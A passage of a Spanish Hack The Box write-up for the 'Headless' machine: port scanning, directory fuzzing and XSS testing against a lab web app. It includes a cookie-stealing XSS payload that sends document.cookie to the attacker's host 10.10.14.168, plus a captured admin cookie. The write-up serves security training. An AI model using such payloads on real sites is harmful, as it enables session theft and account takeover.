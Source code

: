 # HTB - HEADLESS

## Enumeración de puertos/servicios

``` bash 
sudo nmap -sCVT 10.10.11.8
```

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/cc1af630-4f2d-477d-b696-6a4e17f1ece6)

Podemos ver 2 puertos abiertos:
- 22 (SSH)
- 5000 (posiblemente una web)

Vamos a probar si funciona la ip con el puerto 5000.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/850f9ad0-3187-4e0d-a5cc-1eabf2706e0f)


Efectivamente funciona la web, una vez tenemos acceso a ella lo primero que vamos a hacer es realizar un fuzzing en busca de directorios:

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/d4766bf4-277e-4c2b-a129-c646d98be7d6)


## Detección de vulnerabilidades


![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/241dc6dd-04dd-4d20-891a-94850e1c1e4e)


![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/33cdc751-0bcf-4ee8-b42f-ab14de7a8d6c)



``` javascript
<script>alert(‘XSS’)</script>
```



Después de probar con algunos xss decido probar por otro lado a ver si funciona.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/2f294528-ef0f-4640-9183-55b033e60dd9)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/b67c57b8-9bb9-4491-9385-a25d1fafbc15)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/f69baa5f-7213-4eb9-b143-225fbb06289b)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/7e6235d8-677f-46ee-baee-f669a02da363)

``` javascript
<img src=x onerror=fetch('http://10.10.14.168/?cpplie='+document.cookie);>
```



cookie: "ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0"

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/9f4cb784-9d61-481b-928a-ddba6b524c6b)

<img width="284" alt="image" src="https://github.com/0111100/HTB-HEADLESS/assets/96475451/a8052521-7db3-4894-8342-b01049d930a4">


